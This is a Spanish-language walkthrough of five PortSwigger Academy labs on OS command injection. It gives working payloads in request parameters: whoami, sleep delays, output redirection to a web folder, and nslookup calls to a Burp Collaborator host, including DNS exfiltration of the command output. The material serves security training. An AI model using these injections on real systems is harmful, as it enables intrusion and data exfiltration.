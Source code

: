 ## Reto 1: Inyección de comandos del sistema operativo, caso simple

Este laboratorio contiene una vulnerabilidad de inyección de comandos del sistema operativo en el verificador de stock de productos.

La aplicación ejecuta un comando de shell que contiene los identificadores de productos y tiendas proporcionados por el usuario y devuelve el resultado sin procesar del comando en su respuesta.

Para resolver el laboratorio, ejecute el whoamiComando para determinar el nombre del usuario actual. 


vulnerabilidad de inyección de comandos del sistema operativo en el verificador de stock. Al modificar el parámetro ‘storeID’ con ‘1|whoami‘, logramos que el servidor ejecute el comando ‘whoami‘, revelando así el usuario actual del sistema.

```
POST /product/stock HTTP/2
Host: 0a5400e00438941d80e7716d00c9002a.web-security-academy.net
Cookie: session=8ja1BH67dvla1YXqKpNHYgnjmDfHmgRR
Content-Length: 30
Sec-Ch-Ua: 
Sec-Ch-Ua-Platform: ""
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.141 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0a5400e00438941d80e7716d00c9002a.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a5400e00438941d80e7716d00c9002a.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9

productId=1&storeId=1; whoami;
```

## Reto 2: Inyección ciega de comandos del sistema operativo con retrasos de tiempo

Este laboratorio contiene una vulnerabilidad de inyección de comandos ciegos del sistema operativo en la función de retroalimentación.

La aplicación ejecuta un comando de shell que contiene los datos proporcionados por el usuario. La salida del comando no se devuelve en la respuesta.

Para resolver el laboratorio, explote la vulnerabilidad de inyección de comandos ciegos del sistema operativo para provocar un retraso de 10 segundos. 

una inyección de comandos del sistema operativo en modalidad ciega, usando la función de feedback de la aplicación. Aunque el resultado del comando no se muestra en la respuesta, conseguimos demostrar su ejecución provocando una pausa intencionada.

Al inyectar `sleep(10)` en el parámetro ‘email‘, el servidor ejecuta el comando y genera un retardo de 10 segundos, lo que confirma la vulnerabilidad.

```
csrf=hCw2SmFjBQu1AAh8tUe4DzWbheIrqurV&name=test&email=test@test.com;sleep 10; &subject=afasdf&message=asdfasd
```

## Reto 3:Inyección ciega de comandos del sistema operativo con redirección de salida

Este laboratorio contiene una vulnerabilidad de inyección de comandos ciegos del sistema operativo en la función de retroalimentación.

La aplicación ejecuta un comando de shell que contiene los datos proporcionados por el usuario. La salida del comando no se devuelve en la respuesta. Sin embargo, puede usar la redirección de salida para capturar la salida del comando. Hay una carpeta con permisos de escritura en:
/var/www/images/

La aplicación sirve las imágenes del catálogo de productos desde esta ubicación. Puede redirigir la salida del comando inyectado a un archivo en esta carpeta y luego usar la URL de carga de la imagen para recuperar el contenido del archivo.

Para resolver el laboratorio, ejecute el whoamicomando y recuperar la salida. 

Aprovechamos que el directorio ‘/var/www/images/‘ es escribible, inyectando el comando ‘whoami‘ y redirigiendo su salida a un archivo dentro de esa carpeta (output.txt).

Luego accedemos a ese archivo a través del sistema de carga de imágenes, logrando visualizar el resultado del comando ejecutado en el servidor.

```
csrf=EI53BjEDDInZex7QqNGan3PzJ7bE0xCb&name=test&email=carlos@cambiado.com;whoami > /var/www/images/test.txt;&subject=afasdf&message=afasdfasdfa
```

## Reto 4: Inyección ciega de comandos del sistema operativo con interacción fuera de banda


Este laboratorio contiene una vulnerabilidad de inyección de comandos ciegos del sistema operativo en la función de retroalimentación.

La aplicación ejecuta un comando de shell que contiene la información proporcionada por el usuario. El comando se ejecuta de forma asíncrona y no afecta la respuesta de la aplicación. No es posible redirigir la salida a una ubicación accesible. Sin embargo, se pueden activar interacciones fuera de banda con un dominio externo.

Para resolver el laboratorio, explote la vulnerabilidad de inyección de comandos ciegos del sistema operativo para emitir una búsqueda DNS a Burp Collaborator. 

abordamos una inyección de comandos ciega en la que no obtenemos ninguna respuesta visible ni podemos redirigir la salida. Para comprobar la ejecución del comando, usamos una técnica fuera de banda (OAST) enviando una consulta DNS hacia un subdominio de Burp Collaborator.

```
csrf=B0jIrj5VjuPE7aI2DGyECMLk9syNJMil&name=test&email=test%40test.com;nslookup x.a0bvl5hbnm50i3m6ss4tx82m0d64uuij.oastify.com ;&subject=afasdf&message=asdfadfasdf
```

## Reto 5: Inyección ciega de comandos del sistema operativo con exfiltración de datos fuera de banda

Este laboratorio contiene una vulnerabilidad de inyección de comandos ciegos del sistema operativo en la función de retroalimentación.

La aplicación ejecuta un comando de shell que contiene la información proporcionada por el usuario. El comando se ejecuta de forma asíncrona y no afecta la respuesta de la aplicación. No es posible redirigir la salida a una ubicación accesible. Sin embargo, se pueden activar interacciones fuera de banda con un dominio externo.

Para resolver el laboratorio, ejecute el whoamiComando y exfiltrar la salida mediante una consulta DNS a Burp Collaborator. Deberá ingresar el nombre del usuario actual para completar el laboratorio. 

Una inyección de comandos ciega aprovechando una técnica avanzada de exfiltración de datos mediante consultas DNS a un dominio controlado. Usamos Burp Collaborator para lanzar un ‘whoami‘ y capturar el resultado directamente en el subdominio generado, demostrando cómo extraer información sensible incluso cuando no hay salida directa del comando.

```
csrf=zf4btby0GytYneIS7bK30CWwifOBprk0&name=test&email=test@test.com;nslookup $(whoami).457pqzm5sgaunxr0xm9n227g57byzpne.oastify.com;&subject=afasdf&message=asdfasdfa
```
